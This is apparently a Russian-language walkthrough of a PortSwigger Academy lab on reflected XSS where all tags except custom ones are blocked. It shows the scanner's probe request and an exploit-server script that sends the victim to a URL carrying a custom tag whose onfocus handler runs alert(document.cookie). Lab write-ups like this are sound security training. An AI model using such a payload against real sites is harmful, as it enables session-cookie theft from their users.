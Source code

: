 посканим сайт через `Target` -> `scan` -> `deep`

и увидим, что он насканил нам, что на ресурсе существует `reflected XSS`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/12.%20Reflected%20XSS%20into%20HTML%20context%20with%20all%20tags%20blocked%20except%20custom%20ones/pics%20for%20walktrough/1.png)
в примераз issue увидим запрос
```
GET /?search=147805%3cVyOGE%3e HTTP/2
```
который не в URL кодировке выглядит как
```
GET /?search=147805<VyOGE> HTTP/2
```
где в response pretty будет надпись
```
0 search results for '147805<VyOGE>
```
а вот в рендере - нет
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/12.%20Reflected%20XSS%20into%20HTML%20context%20with%20all%20tags%20blocked%20except%20custom%20ones/pics%20for%20walktrough/2.png)

Дальше происходит магия, которую я не смог наресерчить, и как это механически происходит - я тоже не понял
```
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```
открываем го эксплойт сервер

```
<script>
location = 'https://0a0e002703fb07ba8344416a00e00024.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```
после чего получим уведомление об успешно выполненной лабораторной работе

нажимаем стор и деливер и эксплойт на виктиме
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/12.%20Reflected%20XSS%20into%20HTML%20context%20with%20all%20tags%20blocked%20except%20custom%20ones/pics%20for%20walktrough/3.png)
